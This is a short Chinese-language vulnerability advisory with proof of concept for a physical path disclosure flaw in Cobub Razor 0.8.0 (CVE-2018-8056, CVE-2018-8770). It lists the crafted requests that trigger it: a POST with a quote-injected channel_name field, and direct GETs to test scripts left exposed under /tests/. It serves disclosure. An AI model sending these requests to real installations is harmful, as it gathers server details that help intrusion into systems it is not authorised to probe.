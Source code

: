 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Cobub Razor 0.8.0存在物理路径泄露漏洞|2018-04-20|Kyhvedn（yinfengwuyueyi@163.com、kyhvedn@5ecurity.cn）|[http://www.cobub.com/](http://www.cobub.com/) | [https://github.com/cobub/razor/](https://github.com/cobub/razor/) | 0.8.0| [CVE-2018-8056](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8056)/[CVE-2018-8770](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8770)|  

#### 漏洞概述  

> Cobub Razor 0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。   

### POC实现代码如下：  

> 方法一：  

``` raw
URL: http://localhost/export.php
HTTP Method: GET
URL: http://localhost/index.php?/manage/channel/addchannel
HTTP Method: POST
Data: channel_name=test"&platform=1
```
> 方法二：  
> Cobub Razor 0.8.0存在物理路径泄露漏洞，当访问特定url时，系统会显示物理路径信息。Cobub Razor是一个在github上开源的系统。

``` raw
HTTP Method: GET
http://localhost/tests/generate.php
http://localhost/tests/controllers/getConfigTest.php
http://localhost/tests/controllers/getUpdateTest.php
http://localhost/tests/controllers/postclientdataTest.php
http://localhost/tests/controllers/posterrorTest.php
http://localhost/tests/controllers/posteventTest.php
http://localhost/tests/controllers/posttagTest.php
http://localhost/tests/controllers/postusinglogTest.php
http://localhost/tests/fixtures/Controller_fixt.php
http://localhost/tests/fixtures/Controller_fixt2.php
http://localhost/tests/fixtures/view_fixt2.php
http://localhost/tests/libs/ipTest.php
http://localhost/tests/models/commonDbfix.php
```
